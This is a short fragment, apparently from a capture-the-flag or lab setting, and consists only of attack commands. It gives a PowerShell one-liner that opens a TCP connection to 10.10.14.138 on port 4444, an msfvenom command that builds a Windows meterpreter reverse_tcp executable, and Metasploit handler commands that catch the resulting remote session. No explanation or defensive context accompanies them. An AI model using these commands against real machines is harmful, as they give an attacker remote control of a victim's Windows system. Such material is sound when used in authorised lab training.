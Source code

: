 powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.138',4444);$stream = $client.GetStream();$writer = New-Object System.IO.StreamWriter($stream);$reader = New-Object System.IO.StreamReader($stream);while($true){$writer.WriteLine((Read-Host));$writer.Flush();$reader.ReadLine()}"


msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.138 LPORT=4444 -f exe -o ./payload.exe\n

use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.14.138
set LPORT 4444
run

